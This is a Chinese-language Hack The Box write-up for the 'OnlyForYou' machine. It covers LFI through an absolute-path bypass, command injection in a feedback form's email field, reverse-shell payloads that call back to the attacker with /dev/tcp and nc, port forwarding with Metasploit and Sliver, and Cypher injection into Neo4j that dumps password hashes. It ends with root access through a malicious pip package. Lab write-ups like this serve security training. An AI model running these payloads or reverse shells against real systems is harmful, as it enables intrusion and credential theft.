

HTB-OnlyForYou
扫描¶
自用脚本：工作流
22/tcp open ssh OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
80/tcp open http nginx 1.18.0 (Ubuntu)
漏洞分析¶
80端口：only4you.htb¶
- robots.txt：无
- 网页功能：能发送反馈？
- 子域枚举：beta.only4you.htb
子域：beta.only4you.htb¶
能下载到一个flask项目源码。可能是这个beta，也可能是主站？总之先看看源码。
└─$ cat app.py
from flask import Flask, request, send_file, render_template, flash, redirect, send_from_directory
import os, uuid, posixpath
from werkzeug.utils import secure_filename
from pathlib import Path
from tool import convertjp, convertpj, resizeimg
……
@app.route('/download', methods=['POST'])
def download():
image = request.form['image']
filename = posixpath.normpath(image)
if '..' in filename or filename.startswith('../'):
flash('Hacking detected!', 'danger')
return redirect('/list')
if not os.path.isabs(filename):
filename = os.path.join(app.config['LIST_FOLDER'], filename)
try:
if not os.path.isfile(filename):
flash('Image doesn\'t exist!', 'danger')
return redirect('/list')
except (TypeError, ValueError):
raise BadRequest()
return send_file(filename, as_attachment=True)
……
if __name__ == '__main__':
app.run(host='127.0.0.1', port=80, debug=False)
发现子域LFI¶
注意到源码里'/download'路由的部分，有防止目录遍历的代码，不过试了下不知道为什么可以直接写绝对路径访问目标文件。
后来根据0xdf的WP，原来是python的os.path.join代码有点微妙的智能——如果直接写绝对路径，则会忽略前面join的部分，直接从绝对路径继续join。（python文档）
由于目标是nginx服务器，看一眼nginx配置，然后看看子域配置。
请求：
POST /download HTTP/1.1
Host: beta.only4you.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 38
Origin: http://beta.only4you.htb
Connection: close
Referer: http://beta.only4you.htb/list
Upgrade-Insecure-Requests: 1
image=/etc/nginx/sites-enabled/default
响应：
server {
listen 80;
return 301 http://only4you.htb$request_uri;
}
server {
listen 80;
server_name only4you.htb;
location / {
include proxy_params;
proxy_pass http://unix:/var/www/only4you.htb/only4you.sock;
}
}
server {
listen 80;
server_name beta.only4you.htb;
location / {
include proxy_params;
proxy_pass http://unix:/var/www/beta.only4you.htb/beta.sock;
}
}
注意到 /var/www/only4you.htb/，应该是这个项目的文件夹。而参考我们在 beta.only4you.htb 下载的源码，可以大致猜测主站的项目文件夹里也有个 app.py。
payload：image=/var/www/only4you.htb/app.py
响应：
from flask import Flask, render_template, request, flash, redirect
from form import sendmessage
import uuid
app = Flask(__name__)
app.secret_key = uuid.uuid4().hex
@app.route('/', methods=['GET', 'POST'])
def index():
if request.method == 'POST':
email = request.form['email']
subject = request.form['subject']
message = request.form['message']
ip = request.remote_addr
……
第二行似乎导入了一个自定义包：from form import sendmessage
请求一下看看，确实有。这好像是主站那个发送反馈的表单：
payload：image=/var/www/only4you.htb/form.py
响应：
import smtplib, re
from email.message import EmailMessage
from subprocess import PIPE, run
import ipaddress
def issecure(email, ip):
if not re.match("([A-Za-z0-9]+[.-_])*[A-Za-z0-9]+@[A-Za-z0-9-]+(\.[A-Z|a-z]{2,})", email):
return 0
else:
domain = email.split("@", 1)[1]
result = run([f"dig txt {domain}"], shell=True, stdout=PIPE)
output = result.stdout.decode('utf-8')
if "v=spf1" not in output:
return 1
else:
domains = []
ips = []
if "include:" in output:
dms = ''.join(re.findall(r"include:.*\.[A-Z|a-z]{2,}", output)).split("include:")
dms.pop(0)
for domain in dms:
domains.append(domain)
while True:
for domain in domains:
result = run([f"dig txt {domain}"], shell=True, stdout=PIPE)
output = result.stdout.decode('utf-8')
if "include:" in output:
dms = ''.join(re.findall(r"include:.*\.[A-Z|a-z]{2,}", output)).split("include:")
domains.clear()
for domain in dms:
domains.append(domain)
elif "ip4:" in output:
ipaddresses = ''.join(re.findall(r"ip4:+[0-9]+\.[0-9]+\.[0-9]+\.[0-9]+[/]?[0-9]{2}", output)).split("ip4:")
ipaddresses.pop(0)
for i in ipaddresses:
ips.append(i)
else:
pass
break
elif "ip4" in output:
ipaddresses = ''.join(re.findall(r"ip4:+[0-9]+\.[0-9]+\.[0-9]+\.[0-9]+[/]?[0-9]{2}", output)).split("ip4:")
ipaddresses.pop(0)
for i in ipaddresses:
ips.append(i)
else:
return 1
for i in ips:
if ip == i:
return 2
elif ipaddress.ip_address(ip) in ipaddress.ip_network(i):
return 2
else:
return 1
def sendmessage(email, subject, message, ip):
status = issecure(email, ip)
if status == 2:
msg = EmailMessage()
msg['From'] = f'{email}'
msg['To'] = 'info@only4you.htb'
msg['Subject'] = f'{subject}'
msg['Message'] = f'{message}'
smtp = smtplib.SMTP(host='localhost', port=25)
smtp.send_message(msg)
smtp.quit()
return status
elif status == 1:
return status
else:
return status
注意这里面导入了 subprocess.run()。关于run函数，默认是python执行命令，但是也有个参数 shell=True，可以让它用shell执行，则可以使用shell的功能：通配符、重定向符等。
subprocess.run(["ls", "-l"])
subprocess.run("ls -l", shell=True)
shell=True，默认是用“/bin/sh”
而这里面正好有个 result = run([f"dig txt {domain}"], shell=True, stdout=PIPE)，其中的 domain 参数是在判断完正则之后直接从 email 参数切片得来，未进行特别清理。（本意可能是正则表达式以“$”结尾，或者 domain 参数取正则匹配到的部分）
domain = email.split("@", 1)[1]
所以可以尝试注入。只是注意要匹配到email参数的正则表达式 re.match("([A-Za-z0-9]+[.-_])*[A-Za-z0-9]+@[A-Za-z0-9-]+(\.[A-Z|a-z]{2,})", email)，以让函数不直接 return 0 结束。不过这是很常规的email格式就是了。
转战主站表单注入¶
burp里首先用ping验证一下，收到ping。（不过不知道为什么开头有几行由我kali发起的请求？ :2024/5/18:因为是我连接网页发送payload，开头几行是连接网页时的三次握手以及发送数据包（S代表SYN，.代表ACK，P代表PSH）。）
payload：name=admin&email=admin@test.lab;ping 10.xx.xx.xx&subject=asdf&message=asdf
响应：
$ sudo tcpdump -i tun0
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
03:53:42.830312 IP 10.xx.xx.xx.57322 > only4you.htb.http: Flags [S], seq 3023393082, win 64240, options [mss 1460,sackOK,TS val 1866577499 ecr 0,nop,wscale 7], length 0
03:53:42.910763 IP only4you.htb.http > 10.xx.xx.xx.57322: Flags [S.], seq 3296966782, ack 3023393083, win 65160, options [mss 1337,sackOK,TS val 1624306828 ecr 1866577499,nop,wscale 7], length 0
03:53:42.910812 IP 10.xx.xx.xx.57322 > only4you.htb.http: Flags [.], ack 1, win 502, options [nop,nop,TS val 1866577580 ecr 1624306828], length 0
03:53:42.910972 IP 10.xx.xx.xx.57322 > only4you.htb.http: Flags [P.], seq 1:672, ack 1, win 502, options [nop,nop,TS val 1866577580 ecr 1624306828], length 671: HTTP: POST / HTTP/1.1
03:53:42.991151 IP only4you.htb.http > 10.xx.xx.xx.57322: Flags [.], ack 672, win 504, options [nop,nop,TS val 1624306908 ecr 1866577580], length 0
03:53:50.371090 IP only4you.htb > 10.xx.xx.xx: ICMP echo request, id 4, seq 1, length 64
03:53:50.371122 IP 10.xx.xx.xx > only4you.htb: ICMP echo reply, id 4, seq 1, length 64
03:53:51.372118 IP only4you.htb > 10.xx.xx.xx: ICMP echo request, id 4, seq 2, length 64
03:53:51.372133 IP 10.xx.xx.xx > only4you.htb: ICMP echo reply, id 4, seq 2, length 64
03:53:52.374083 IP only4you.htb > 10.xx.xx.xx: ICMP echo request, id 4, seq 3, length 64
03:53:52.374100 IP 10.xx.xx.xx > only4you.htb: ICMP echo reply, id 4, seq 3, length 64
03:53:53.375395 IP only4you.htb > 10.xx.xx.xx: ICMP echo request, id 4, seq 4, length 64
03:53:53.375419 IP 10.xx.xx.xx > only4you.htb: ICMP echo reply, id 4, seq 4, length 64
^C
13 packets captured
13 packets received by filter
0 packets dropped by kernel
Initial Access¶
试了好几个payload都没反应，不知道为什么……如这个：/bin/bash -i >& /dev/tcp/10.xx.xx.xx/4444 0>&1
通过下面这个payload成功get shell：
payload：name=admin&email=admin@test.lab;rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fbash%20-i%202%3E%261%7Cnc%2010.xx.xx.xx%204444%20%3E%2Ftmp%2Ff&subject=asdf&message=asdf
后面试了下python3的也可以
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.xx.xx.xx] from (UNKNOWN) [10.10.11.210] 33262
bash: cannot set terminal process group (1014): Inappropriate ioctl for device
bash: no job control in this shell
www-data@only4you:~/only4you.htb$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
看了下用户flag不在这个用户。home目录有两个用户：dev、john。
姑且看了下SUID等，没发现能提权。继续探索期望进行横向移动。
探索¶
枚举到本地开放端口时，发现开着挺多服务：
www-data@only4you:~/only4you.htb$ netstat -anot
netstat -anot
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address Foreign Address State Timer
tcp 0 0 127.0.0.1:8001 0.0.0.0:* LISTEN off (0.00/0/0)
tcp 0 0 127.0.0.1:33060 0.0.0.0:* LISTEN off (0.00/0/0)
tcp 0 0 127.0.0.1:3306 0.0.0.0:* LISTEN off (0.00/0/0)
tcp 0 0 0.0.0.0:80 0.0.0.0:* LISTEN off (0.00/0/0)
tcp 0 0 127.0.0.53:53 0.0.0.0:* LISTEN off (0.00/0/0)
tcp 0 0 0.0.0.0:22 0.0.0.0:* LISTEN off (0.00/0/0)
tcp 0 0 127.0.0.1:3000 0.0.0.0:* LISTEN off (0.00/0/0)
tcp 0 14 10.10.11.210:33262 10.xx.xx.xx:4444 ESTABLISHED on (0.28/0/0)
tcp 0 1 10.10.11.210:49654 8.8.8.8:53 SYN_SENT on (0.30/2/0)
tcp 0 0 127.0.0.1:3306 127.0.0.1:49928 TIME_WAIT timewait (13.30/0/0)
tcp6 0 0 127.0.0.1:7687 :::* LISTEN off (0.00/0/0)
tcp6 0 0 127.0.0.1:7474 :::* LISTEN off (0.00/0/0)
tcp6 0 0 :::22 :::* LISTEN off (0.00/0/0)
都curl看看。先 curl -I 看看响应报头
- 127.0.0.1:8001，302，不过Location字段会重定向到
/login，那边会响应200。 - 127.0.0.1:33060，
curl: (1) Received HTTP/0.9 when not allowed，报错？ - 127.0.0.1:3306，同上。不过一般都是mysql。
- 127.0.0.1:3000，200。
- 127.0.0.1:7687，
curl: (52) Empty reply from server - 127.0.0.1:7474，200。
有几个响应200的本来想curl一下看看网页源码，不过之后要进行更深的分析的话光靠curl还是好麻烦。看看能不能弄个端口转发什么的……
端口转发¶
- 之前一直听说frp、Ngrok等
- 最近还知道有个Sliver C2好像是对标CS的？
- 后来看WP有人用chisel
- 以及群里有师傅说原生metasploit有点鸡肋，推荐Viper - 炫彩蛇
- 自己比较熟悉的是metasploit就先试试这个
metasploit¶
首先生成payload：
发送到目标，执行后配置端口转发。
踩坑：-L 选项是指定tun0网卡。最开始指定了环回IP自己都没意识到问题所在……当然不用 -L 选项直接监听所有网卡倒也行。
meterpreter > portfwd add -L 10.xx.xx.xx -l 3000 -p 3000 -r 127.0.0.1
[*] Forward TCP relay created: (local) 10.xx.xx.xx:3000 -> (remote) 127.0.0.1:3000
meterpreter > portfwd
Active Port Forwards
====================
Index Local Remote Direction
----- ----- ------ ---------
1 127.0.0.1:3000 10.xx.xx.xx:3000 Forward
试了下倒是成功了。
不过本来加第一个端口转发还能访问来着，加了第二个之后，访问就变得巨慢，可以说是没用了。看了眼 netstat 似乎都在队列里，不知道有什么问题。
重置靶机试了几次都这样，要是还得一个一个来弄就很烦，就想顺便弄点新东西，试试整Sliver C2。
Sliver C2¶
安装很简单：
curl https://sliver.sh/install|sudo bashand then runsliver
- memo：这种方式安装即为Multiplayer Mode
The easiest way to setup a server for multiplayer is to use the Linux install script which will configure the server as a systemd service.
Sliver的 netstat 命令要显示全还挺麻烦的……如果不是之前知道开放了3000、8001等本地端口的话，估计就不会注意到了。对比带选项和不带选项：
sliver (SMILING_WET-BAR) > netstat -4 -6 -l -n -T -u
Protocol Local Address Foreign Address State PID/Program Name
========== ================= ================= ============= ==================
udp 127.0.0.1:48897 127.0.0.53:53 ESTABLISHED 0/
udp 127.0.0.53:53 0.0.0.0:0 0/
udp 0.0.0.0:68 0.0.0.0:0 0/
tcp 127.0.0.1:3306 0.0.0.0:0 LISTEN 0/
tcp 0.0.0.0:80 0.0.0.0:0 LISTEN 1049/nginx
tcp 127.0.0.53:53 0.0.0.0:0 LISTEN 0/
tcp 0.0.0.0:22 0.0.0.0:0 LISTEN 0/
tcp 127.0.0.1:3000 0.0.0.0:0 LISTEN 0/
tcp 127.0.0.1:8001 0.0.0.0:0 LISTEN 0/
tcp 127.0.0.1:33060 0.0.0.0:0 LISTEN 0/
tcp6 127.0.0.1:7474 :::0 LISTEN 0/
tcp6 :::22 :::0 LISTEN 0/
tcp6 127.0.0.1:7687 :::0 LISTEN 0/
sliver (SMILING_WET-BAR) > netstat
Protocol Local Address Foreign Address State PID/Program Name
========== ===================== ================== ============= ======================
tcp only4you.htb.:48422 10.xx.xx.xx:4444 ESTABLISHED 5111/python3
tcp only4you.htb.:44230 10.xx.xx.xx:4444 CLOSE_WAIT 1438/python3
tcp only4you.htb.:32794 10.xx.xx.xx:4444 CLOSE_WAIT 1250/python3
tcp localhost:3000 localhost:41604 ESTABLISHED 0/
tcp localhost:3000 localhost:41616 ESTABLISHED 0/
tcp only4you.htb.:59626 10.xx.xx.xx:4444 CLOSE_WAIT 2215/python3
tcp only4you.htb.:39926 dns.google.:53 SYN_SENT 0/
tcp localhost:3000 localhost:41624 ESTABLISHED 0/
配置端口转发：
sliver (SMILING_WET-BAR) > portfwd add -b 10.xx.xx.xx:7474 -r 127.0.0.1:7474
[*] Port forwarding 10.xx.xx.xx:7474 -> 127.0.0.1:7474
sliver (SMILING_WET-BAR) > portfwd
ID Session ID Bind Address Remote Address
==== ====================================== ================== ================
1 bd9e189d-515d-43a8-913d-8bf558991ee8 10.xx.xx.xx:3000 127.0.0.1:3000
2 bd9e189d-515d-43a8-913d-8bf558991ee8 10.xx.xx.xx:8001 127.0.0.1:8001
3 bd9e189d-515d-43a8-913d-8bf558991ee8 10.xx.xx.xx:7474 127.0.0.1:7474
socks5 proxy¶
后来看别人的WP了解到可以 socks start 开启socks5代理……然后在浏览器配置代理就好了
试了下kali浏览器访问几个端口都没问题。
初步浏览各个本地端口¶
3000¶
是个叫Gogs的什么git服务。
发现两个用户

{kind=link}
另有登陆界面，不知道能否SQLi。
不过感觉是拿到了这俩用户的密码之后，登陆进来看脚本漏洞什么的？
8001¶
又一个登陆界面

看了眼wappalyzer，deployment项目里有Gogs。那应该就是和端口3000配套的？
7474¶
没怎么见过，似乎叫Neo4j。查了下是个NoSQL图形数据库

也搞清楚了另一个端口7687
hacktricks也有相关文章，hacktricks - Cypher Injection (neo4j)，不过没看懂……
没懂怎么注入，就想着油管看看实操，然后看youtube - Cypher Query Injection这个视频才明白原来这个“Cypher”不是密码，而是“Open Cypher”……
简单看了下就是类似SQLi。但是参数在哪啊……
弱密码登陆本地端口3000¶
弱密码，admin:admin。进去后看Tasks标注“迁移到新数据库Neo4j”。那有可能这边才是注入的地方。
Cypher Query Injection¶
参照上面几篇文章，用python在本地开个简单的http服务进行测试。
然后在EMPLOYEES菜单的搜索框发现注入点，可以进行暴库。
一开始复制payload在CyberChef普通地选上URL编码不大行，后面注意到payload里面有加号，然后在CyberChefURL编码时勾上处理所有特殊字符才注入OK。
而且admin登陆会话还有时限，过一段时间总要再次登陆获取活跃会话才能顺利POST注入payload
以及事后回顾才发现这次真是好运，参考文章的payload里这个 MATCH (f:user) 是正好这次枚举出来有的label。当时是想都没想直接复制着用了，要是不行的话指不定会卡多久……
还有不大明白为什么一次请求会返回好多条响应……
└─$ python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.210 - - [31/May/2023 08:10:16] code 400, message Bad request syntax ('GET /?version=5.6.0&name=Neo4j Kernel&edition=community HTTP/1.1')
10.10.11.210 - - [31/May/2023 08:10:16] "GET /?version=5.6.0&name=Neo4j Kernel&edition=community HTTP/1.1" 400 -
10.10.11.210 - - [31/May/2023 08:10:38] code 400, message Bad request syntax ('GET /?version=5.6.0&name=Neo4j Kernel&edition=community HTTP/1.1')
10.10.11.210 - - [31/May/2023 08:29:19] "GET /?version=5.6.0&name=Neo4j Kernel&edition=community HTTP/1.1" 400 -
10.10.11.210 - - [31/May/2023 08:29:28] "GET /?label=user HTTP/1.1" 200 -
10.10.11.210 - - [31/May/2023 08:29:28] "GET /?label=employee HTTP/1.1" 200 -
……
10.10.11.210 - - [31/May/2023 08:30:28] "GET /?password=8c6976e5b5410415bde908bd4dee15dfb167a9c873fc4bb8a81f6f2ab448a918 HTTP/1.1" 200 -
10.10.11.210 - - [31/May/2023 08:30:28] "GET /?username=admin HTTP/1.1" 200 -
10.10.11.210 - - [31/May/2023 08:30:28] "GET /?password=a85e870c05825afeac63215d5e845aa7f3088cd15359ea88fa4061c6411c55f6 HTTP/1.1" 200 -
10.10.11.210 - - [31/May/2023 08:30:29] "GET /?username=john HTTP/1.1" 200 -
……
获得凭据¶
密码一开始想着 john 暴破不过没成功，hash-identifier甚至把密文识别为SHA-256。
后来直接扔进这里试了下就出来了：https://www.somd5.com/
将log稍作整理，并解密后，我们得到了如下信息：
| username | password | 解密 |
|---|---|---|
| admin | 8c6976e5b5410415bde908bd4dee15dfb167a9c873fc4bb8a81f6f2ab448a918 | admin |
| john | a85e870c05825afeac63215d5e845aa7f3088cd15359ea88fa4061c6411c55f6 | ThisIs4You |
记得还有个本地端口3000，admin弱密码之前试过了，用john进去看看有什么信息。不过很遗憾只有一个Test仓库，还是私人的，没任何有用的信息了。
不过突然想起来SSH，毕竟家目录有他。本地端口这边打太久了都要忘了这回事……
SSH登陆¶
Last login: Tue Apr 18 07:46:32 2023 from 10.10.14.40
john@only4you:~$ id
uid=1000(john) gid=1000(john) groups=1000(john)
flag: user¶
Privilege Escalation¶
有密码的用户，上来先看看 sudo -l：
john@only4you:~$ sudo -l
Matching Defaults entries for john on only4you:
env_reset, mail_badpass,
secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
User john may run the following commands on only4you:
(root) NOPASSWD: /usr/bin/pip3 download http\://127.0.0.1\:3000/*.tar.gz
有通配符，较可疑。
不过突破口其实是在前半部分的 pip3 download，我们可以谷歌找到这篇文章：Malicious Python Packages and Code Execution via pip download
根据文章指示构建一个tar.gz文件。
然后在Gogs新建一个仓库，正好之前发现john用户可以用，将tar.gz文件上传。
运行：
靶机会自动清理仓库的样子
下载仓库的tar.gz文件注意要选择“raw”
john@only4you:~$ ls -l /usr/bin/bash
-rwxr-xr-x 1 root root 1183448 Apr 18 2022 /usr/bin/bash
john@only4you:~$ sudo /usr/bin/pip3 download http\://127.0.0.1\:3000/john/exp/raw/master/this_is_fine_wuzzi-0.0.1.tar.gz
Collecting http://127.0.0.1:3000/john/exp/raw/master/this_is_fine_wuzzi-0.0.1.tar.gz
Downloading http://127.0.0.1:3000/john/exp/raw/master/this_is_fine_wuzzi-0.0.1.tar.gz
- 2.7 kB 8.2 MB/s
Saved ./this_is_fine_wuzzi-0.0.1.tar.gz
Successfully downloaded this-is-fine-wuzzi
john@only4you:~$ ls -l /usr/bin/bash
-rwsr-xr-x 1 root root 1183448 Apr 18 2022 /usr/bin/bash
flag: root¶
john@only4you:~$ bash -p
bash-5.0# id
uid=1000(john) gid=1000(john) euid=0(root) groups=1000(john)
bash-5.0# cat /root/root.txt
156a……3d3a
总结·后记¶
2023/05/31
难……已经啥都不想说了。想吐槽的以及不太懂的地方都边打边写了（斜体）……